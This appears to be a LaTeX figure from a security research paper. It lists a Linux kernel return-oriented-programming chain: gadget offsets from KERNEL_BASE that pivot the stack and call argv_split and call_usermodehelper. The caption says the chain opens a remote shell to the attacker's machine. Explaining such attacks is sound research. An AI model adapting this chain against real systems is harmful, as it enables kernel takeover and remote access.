 \begin{figure}[b]
\begin{adjustbox}{width=\linewidth}
\begin{lstlisting}[
        basicstyle = \footnotesize,
        columns = fullflexible,
        %frame = l,
        language = C
        ]
// stack
page[0xF68] = KERNEL_BASE + 0x0d7b05; // pop rsi; ret
page[0xF70] = &ATTACK_PAGE[0x400];
page[0xF78] = KERNEL_BASE + 0x12dacd; // pop rdi; ret
page[0xF80] = 0;
page[0xF88] = KERNEL_BASE + 0x11bac2; // pop rdx ; ret
page[0xF90] = 0;
page[0xF98] = KERNEL_BASE + 0x3a00d0; // &argv_split
page[0xFA0] = KERNEL_BASE + 0x005dfc; // pop rcx ; ret
page[0xFA8] = &ATTACK_PAGE[0x500];
page[0xFB0] = KERNEL_BASE + 0x1319ee; // push rax; jmp qword ptr[rcx]
page[0xFB8] = KERNEL_BASE + 0x5822a2; // mov rax, qword ptr [rax] ; ret
page[0xFC0] = KERNEL_BASE + 0x005dfc; // pop rcx ; ret
page[0xFC8] = &ATTACK_PAGE[0x508];
page[0xFD0] = KERNEL_BASE + 0x1319ee;// push rax; jmp qword ptr[rcx]
page[0xFD8] = KERNEL_BASE + 0x005dfc;// pop rcx ; ret
page[0xFE0] = 0;
page[0xFE8] = KERNEL_BASE + 0x0896a0; // &call_usermodehelper
page[0xFF0] = KERNEL_BASE + 0x4c0f0e; // xor rax, rax ; ret
page[0xFF8] = KERNEL_BASE + 0x003795; // leave ; ret
        \end{lstlisting}
\end{adjustbox}
        \caption{
                ROP attack to open a remote shell on the attacker's machine. The pivoting code uses \texttt{rdi} register, which points to the page, providing the \kva.}
        \label{fig:shellcode_2}
\end{figure}






